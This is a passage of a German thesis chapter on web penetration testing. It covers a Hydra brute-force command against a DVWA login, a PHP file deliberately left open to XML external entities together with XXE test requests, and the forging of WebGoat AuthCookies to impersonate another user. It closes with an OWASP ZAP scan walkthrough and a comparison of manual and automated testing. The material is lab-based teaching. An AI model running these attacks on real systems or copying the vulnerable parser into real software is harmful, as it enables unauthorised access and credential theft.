Wenn die Erfassung von Anforderungen beendet wird und das Ergebnis im Browser überprüft wird, kann festgestellt werden, dass die Antwort eine Weiterleitung zur Anmeldeseite ist\cite[144]{najera2016kali}:

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{bfa2.png}
	\caption{Die Weiterleitung zur Anmeldeseite}
\end{figure}

Eine gültige Kombination aus Benutzername und Kennwort sollte nicht zu demselben Login, sondern zu einer anderen Seite, z. B. index.php, weitergeleitet werden. Wir gehen also davon aus, dass ein gültiges Login auf die andere Seite umgeleitet wird, und wir verwenden \texttt{login.php} als Zeichenfolge, um zu unterscheiden, wenn ein Versuch fehlschlägt\cite[145]{najera2016kali}.\\

Es wird den folgenden Befehl in ein Terminal eingeführt\cite[145]{najera2016kali}:

\begin{LaTeXCode}[caption={Befehl durch Terminal},captionpos=b, label=LaTeXCode:beheldt1][numbers=none]
hydra 192.168.56.102 http-form-post "/dvwa/login.php:username=^USE
R^&password=^PASS^&Login=Login:login.php" -L users.txt -e ns -u -t 2 -w 30 -o hydra-result.txt
\end{LaTeXCode}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{bfa3.png}
	\caption{Aufdeckung den Passwörtern}
\end{figure}

Mittels diesem Befehl wird nur zwei Kombinationen pro Benutzer ausprobiert: password = username und leere Passwörter und es werden zwei gültige Passwörter von diesem Angriff erhalten, die von Hydra grün markiert sind\cite[145]{najera2016kali}.

\subsection{Testen von XML External Entities (XXE)}

Wenn eine Anwendung XML-Daten parst und das Ergebnis von geparstem XML in einer HTTP-Antwort anzeigt, würde ein grundlegender Testfall zum Testen der XXE-Sicherheitsanfälligkeit eine XXE-Payload senden, die eine interne Entität ver"`Alphabet"'wendet, nur um sicherzustellen, dass die Anwendung Entitäten enthält oder nicht. Dieses Tutorial stammt aus Infosec Institute\cite{infosec18}.\\

Es wird den folgenden PHP-Code als xxe.php im Webserver-Stammordner gespeichert:

\newpage

\begin{LaTeXCode}[caption={XXE PHP-Datei},captionpos=b][numbers=none]
<?php
libxml_disable_entity_loader (false);
\$xmlfile = file_get_contents('php://input');
\$dom = new DOMDocument();
\$dom->loadXML(\$xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
\$o = simplexml_import_dom(\$dom);
\$user = \$o->username;
\$pass = \$o->password;
echo "username : \$user";\\
\end{LaTeXCode}

Eine POST-Anforderung an die \texttt{xxe.php}-Datei mit XML-Daten gesendet, die im folgenden Screenshot gezeigt werden:

\begin{LaTeXCode}[caption={POST Anfrage zu PHP-Datei},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

	<root>
		<username>sahil</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll beachtet werden, dass die Anwendung in der HTTP-Antwort einen Benutzernamen anzeigt, der bestätigt, dass die XML-Daten geparst werden.

\begin{LaTeXCode}[caption={Geparste XML-Daten},captionpos=b][numbers=none]
HTTP/1.1 200 OK
Date: Tue, 15 May 2018 17:40:35 GMT
Server: Apache/2.4.27 (Win64) PHP/5.6.31
X-Powered-By: PHP/5.6.31
Content-Length: 16
Connection: close
Content-Type: text/xml; charset-UTF-8	

username: sahil\\
\end{LaTeXCode}

Nun wird den XML-Daten eine interne Entität hinzugefügt und im \texttt{username} Element mit \&u verweist und die Anfrage erneut gesendet.\\

\begin{LaTeXCode}[caption={Manipulierte Anfrage},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

<xml version="1.0"?>
<!DOCTYPE foo[<!ENTITY u 'username from internal entity'>]>	
	<root>
		<username>\&u;</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll beachtet nochmal werden, dass die Anwendung der interne Einheit auflöst und die XXE-Sicherheitsanfälligkeit erfolgreich bestätigt.\\

\begin{LaTeXCode}[caption={Bestätigung der XXE-Schwachstelle},captionpos=b][numbers=none]
	HTTP/1.1 200 OK
	Date: Sun, 20 May 2018 06:31:39 GMT
	Server: Apache/2.4.27 (Win64) PHP/5.6.31
	X-Powered-By: PHP/5.6.31
	Content-Length: 16
	Connection: close
	Content-Type: text/html; charset-UTF-8	
	
	username: username from internal entity\\
\end{LaTeXCode}

\newpage

\subsection{Testen von Fehlerhafte Authentifizierung mit Webgoat und Burp Suite}
Dieses Tutorial stammt aus der Webseite Tutorialspoint\cite{tpfa15}.
Eine Webanwendung unterstützt das Umschreiben von URLs, indem Sitzungs-IDs in die URL eingefügt werden.\\

\texttt{http://example.com/sale/saleitems/jsessionid=2P0OC2JSNDLPSKHC}

\texttt{JUN2JV/?item=laptop}\\

Ein authentifizierter Benutzer der Website leitet die URL an seine Freunde weiter, um Informationen zu den reduzierten Verkäufen zu erhalten. Er sendet den obigen Link per E-Mail, ohne zu wissen, dass der Benutzer auch die Sitzungs-IDs verschenkt. Wenn seine Freunde den Link verwenden, verwenden sie seine Sitzung und seine Kreditkarte.\\

Man muss sich bei Webgoat anmelden und zum Abschnitt \texttt{"`Session Management Flaws"'} navigiert wird.\\

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa2.jpg}
	\caption{Anmeldung bei Webgoat}
\end{figure}

Wenn mit den Anmeldeinformationen webgoat/webgoat angemeldet wird, wird in Burp Suite festgestellt, dass die \texttt{JSESSION-ID C8F3177CCAFF380441ABF71090748F2E} lautet, während \texttt{AuthCookie = 65432ubphcfx} nach erfolgreicher Authentifizierung ist.

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa3.jpg}
	\caption{Burp Suite: AuthCookie Kontrolle 1}
\end{figure}

Wenn mit den Anmeldeinformationen aspect/aspect angemeldet wird, wird in Burp Suite festgestellt, dass die \texttt{JSESSION-ID C8F3177CCAFF380441ABF71090748F2E} lautet, während \texttt{AuthCookie = 65432udfqtb} nach erfolgreicher Authentifizierung ist.

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa4.jpg}
	\caption{Burp Suite: AuthCookie Kontrolle 2}
\end{figure}

Nun muss die AuthCookie Patterns analysiert werden. Die erste Hälfte \texttt{65432} ist für beide Authentifizierungen üblich. Daher sind wir jetzt daran interessiert, den letzten Teil der Authcookie-Werte zu analysieren, wie - \texttt{ubphcfx} für den Benutzer \texttt{webgoat} und \texttt{udfqtb} für den jeweiligen Aspektbenutzer.\\

Wenn die AuthCookie-Werte genauer angesehen werden, hat der letzte Teil dieselbe Länge wie der Benutzername. Es ist daher offensichtlich, dass der Benutzername bei einer Verschlüsselungsmethode verwendet wird. Bei Versuchen und Fehlern / Brute-Force-Mechanismen wird festgestellt, dass nach der Umkehrung des Benutzernamens \texttt{webgoat}; es wird jetzt rausgefunden, dass es \texttt{taogbew} ist und dann wird das Zeichen vor dem Alphabet als AuthCookie d. h. \texttt{ubphcfx} verwendet.

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa5.jpg}
	\caption{Burp Suite: AuthCookie Kontrolle 3}
\end{figure}

Nach der Authentifizierung als Benutzer-Webgoat den AuthCookie-Wert geändert wird, um den Benutzer Alice zu verspotten, indem den AuthCookie gesucht wird.

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{fa6.jpg}
	\caption{Authentifizierung mit dem Cookie}
\end{figure}

\section{Automatisierte Penetrationstest}

Wie in der Abschnitt \ref{owaspzap-def} erwähnt, dass OWASP ZAP ein benutzerfreundliches integriertes Penetrationstest-Tool zum Auffinden von Schwachstellen in Webanwendungen ist. ZAP bietet automatisierte Scanner sowie eine Reihe von Tools, mit denen die Sicherheitslücken automatisch gesucht werden können. In diesem Abschnitt wird die OWASP ZAP-GUI vorgestellt und wird erfährt, wie automatische Penetrationstests mit dem Sicherheitstools OWASP Zap durchgeführt werden. Außerdem bilden die in diesem Kapitel erläuterten Informationen die Basis für die in Kapitel \ref{cha:k5} vorgenommene Evaluierung des Open API 2.0 Plugins von OWASP ZAP und sind demzufolge für das Verständnis der Verwendung erforderlich.

\subsection{OWASP-ZAP Webanwendung Penetrationstest}

\subsubsection{Die Vorstellung von OWASP ZAP Oberfläche}

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui.png}
	\caption{OWASP ZAP GUI Überblick}
\end{figure}

Wie oben zu sehen, ist das GUI-Fenster in drei Hauptabschnitte unterteilt:\\

\begin{flushleft}
	\textbf{Linker Bereich:}\\
\end{flushleft}
Im linken Bereich des ZAP-Fensters werden die Dropdown-Schaltflächen "`Context"' und "`Sites"' angezeigt. Es kann vorkommen, dass mehrere Websites zum Scannen ausgewählt werden können. Diese Websites werden unter "`Sites"' angezeigt.

\begin{flushleft}
	\textbf{Rechter Bereich:}\\
\end{flushleft}
Hier gibt es einen URL-Abschnitt, in dem das Ziel für das Scannen angegeben werden müssen. Die Schaltfläche "`Attack"' startet den Angriff auf das Ziel und die Schaltfläche "`Stop"' stoppt den Angriff.

\begin{flushleft}
	\textbf{Unterer Bereich:}\\
\end{flushleft}
Dieser Abschnitt enthält sechs Tabs, die für die Darstellung der Aktivitäten während der Schwachstellensuche wichtig sind. Unter den Tabs befindet sich eine Fortschrittsleiste, in der der Scanfortschritt, die Anzahl der gesendeten Anforderungen und der Export der Details im CSV-Format angezeigt werden.\\

Das Tab \textbf{"`History"'} zeigt die getesteten Websites an. In diesem Fall testen wir nur ein einzelnes Ziel, sodass im Verlaufsdatensatz ein einzelner Eintrag angezeigt wird.\\

Auf das Tab \textbf{"`Search"'} kann der Tester Suche nach Mustern durchführen. Zum Beispiel wird alle GET-Anfragen abgefragt und wird dazu gehörende Informationen angezeigt.\\

Auf das Tab \textbf{"`Alerts"'} können weitere Informationen zu den erkannten Sicherheitslücken des gescannten Ziels gefunden werden und die Ausgaben werden nach Schweregrad eingestuft.\\

Auf das Tab \textbf{"`Spider"'} werden die Dateien angezeigt, die in der Webanwendung gecrawlt (erkannt) wurden. Durch das Spider wird die auf der Website residenten Verzeichnisse und Dateien ermittelt und für eine spätere Überprüfung auf Schwachstellen protokolliert werden.\\

Das letzte Tab ist der \textbf{"`Active Scan"'}. Dies ist wichtig, um den Fortschritt des laufenden Scans in Echtzeit anzuzeigen, wobei jede verarbeitete Datei angezeigt wird.\\

\subsubsection{Schneller Scan \& Angriff}

Um den Schnellscan zu starten, wird die Adresse des Ziels in das Eingabefeld "`URL to attack"' eingegeben und wird auf die Schaltfläche "`Attack"' geklickt.

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui2.png}
	\caption{URL zum Spider}
	\label{quickscan2}
\end{figure}

Dadurch wird die gesamte Zielwebsite gesichtet und anschließend nach Schwachstellen durchsucht. Der Scan-Fortschritt und die gefundenen Seiten werden wie bei der Abbildung \ref{quickscan3} im unteren Fenster angezeigt.

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui3.png}
	\caption{Spider Ergebnis}
	\label{quickscan3}
\end{figure}

Wenn es fertig ist, wird auf "`Alerts"' geklickt, um Sicherheitsprobleme der Website wie folgendes anzuzeigen:

\begin{figure}[h]
	\centering
	
\includegraphics[width=12cm]{owaspzapgui4.png}
	\caption{Gefundene Sicherheitslücken}
	\label{quickscan4}
\end{figure}

Jeder Ordner enthält verschiedene Arten von Sicherheitsproblemen, die für den Schweregrad farbcodiert sind. Durch Klicken auf den Ordner werden einzelne Probleme angezeigt, die für zusätzliche Informationen ausgewählt werden können. Es enthält nicht nur eine detaillierte Erklärung des Problems, sondern auch Empfehlungen zur Lösung des Problems enthält.

\section{Vor- und Nachteile zwischen manuelle und automatisierte Penetrationstest}

Beim Penetrationstest kann der Tester entweder manuelle oder automatisierte oder beide Methoden anwenden, um die Schwachstellen in der Webanwendung zu ermitteln. Die Methoden der Tester basieren auf ihren Fähigkeiten und Kenntnissen. Es gibt jedoch einige Faktoren, z. B. welche Methode wirksam ist, weniger Zeitverwirrung und Zuverlässigkeit in Betracht gezogen werden sollten, bevor sie angewendet werden. Sowohl manuelle als auch automatisierte Testansätze haben Vor- und Nachteile. Ein Anwendungskontext sollte bei der Entscheidung helfen, welcher der geeignetere ist. Der Kontext umfasst Folgendes: Wie groß ist die Anwendung, wie hoch ist das Budget des Projekts oder wann soll es freigegeben werden? 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% positives - manual
Die Einrichtzeit bei dem manuellen Testen ist im Vergleich zum automatisierten Testen kürzer. Darüber hinaus ist es möglich, während aller Entwicklungsphasen problemlos manuell zu testen, da es keine Einschränkungen gibt, was für einen manuellen Test geeignet ist. 

%%negativ - manual
Der umfassende Test der manuellen Penetrationstests macht es zu einem sehr komplexen Prozess. Die wiederholte Aufgaben, die während des manuellen Tests ausgeführt werden, können zu ungenauen oder falschen Ergebnissen führen.  Dieser Prozess erfordert während der gesamten Testdauer ein Team von erfahrenen Testern, was es zu einer sehr teuren Option macht. Diese Tester müssen sehr erfahren sein, da sie alle Aufgaben manuell steuern müssen. Bei automatisierten Anwendungssicherheitstests wird weniger Personal benötigt, um das Scannen und die Analyse durchzuführen.

%%positives - auto
Automatisiertes Testen bietet Vorteile für größere Projekte, da die anfänglichen Kosten für die Automatisierung und die Testwartung sehr hoch sein können. Automatisierung hilft dabei, menschliche Fehler zu vermeiden - einige Fehler, die bei manuellen Tests gemacht werden, können reduziert werden. Dies betrifft Fehler, die durch die Durchführung einer langen Liste alltäglicher Aktivitäten entstanden sind. Automatisiertes Testen ist eine sichere und einfache Methode, um alle Aufgaben im Zusammenhang mit dem Durchdringungstest durchzuführen. Da die meisten Aufgaben automatisiert sind, können Tests weniger zeitaufwändig sein als manuelle Tests. Die einfache Reproduzierbarkeit der Tests ist auch ein großer Vorteil gegenüber dem individuellen Ansatz beim manuellen Testen\cite{autovorteil99}.

Automatisierte Tests sind schneller als manuelle Tests. Da die Automatisierte Test schneller ist, werden die Ergebnisse auch schneller akkumuliert. Sicherheitsberichte werden automatisch generiert und können zur Offline-Prüfung als XML-, PDF- oder HTML-Dateien exportiert werden\cite{autovorteil99}.

Automatisierung kann zu den folgenden Kostensenkungen führen. Die Kosten für\cite{autovorteil99}: 

\begin{itemize} 
	\item die Entwicklung automatisierter Tests.
	\item die Verbesserung der Tests, wenn sich das Produkt ändert.
	\item die Überprüfung der Testergebnisse.
\end{itemize} 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

















